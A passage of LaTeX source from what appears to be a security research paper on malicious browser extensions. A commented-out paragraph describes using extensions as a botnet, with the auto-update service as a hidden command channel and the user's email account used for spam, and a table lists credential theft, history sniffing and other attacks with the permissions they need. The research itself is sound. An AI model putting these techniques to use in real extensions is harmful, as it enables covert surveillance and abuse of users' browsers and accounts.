has no access due to the same origin policy, if it is now dropped on the displayed web page it can be accessed,
	
	%	\textbf{Botnet} a botnet is a network consisting of multiple compromised clients, those can be controlled to execute large scaled Internet attacks such as Distributed Denial of Service (DDoS) or spamming, DDoS is a web based attack targeted to make an web service unavailable by overwhelming it with traffic, a botnet can be used to call the web service from different sources multiple times per second, the attack can either target the network and flood its bandwidth or the application itself using up all the computer's resources, the web service will be unavailable for the general public \cite{liu2011botnet}
	%	Browser extension can be used as bot's. They are hosted on many different computers and can execute web requests. A message channel is needed to command the bots to execute some task. One possible way is to let the extension fetch its command from a server. But this method can be tracked down to the person controlling the botnet who of course wants to remain unknown. A more stealthy way is to use an extension's automatically update service. The command can be added for example as a text file which will be parsed by the extension if a new update was installed. The extension can not only launch DDoS attacks but can also be used to spam emails. Therefor the extension can use the user's email account. If the user logs into his account the extension can either use send E-Mails itself over the 
	
	\subsection{Summary}
	
	We have shown that we can use an extension to perform and support attacks to harm the current user's privacy. Additionally, we provided ways to propagate collected information either to remote servers or to the currently visited web page. The following table summarizes our implemented attacks and lists what permissions an extension needs to execute the attack.
	
	\begin{table}[h]
		\centering
		\begin{tabular}{|l|l|} \hline
			\textbf{Attack} & \textbf{Needed Permissions} \\ \hline
			Send information to any host & Content Script \textbf{or} \texttt{"http://*/*", "https://*/*"} \textbf{or} \texttt{<all\_urls>} \\
			Exchange messages with the current web page & Content Script \\
			Steal information from the current web page & Content Script \\
			Steal user credentials & Content Script \\
			Web beacon & Content Script \\
			History Sniffing & Content Script \textbf{or} \texttt{"history"} \\ \hline
		\end{tabular}
		\caption{Summary of attacks and needed permission}
		\label{Summary of attacks and needed permission}
	\end{table}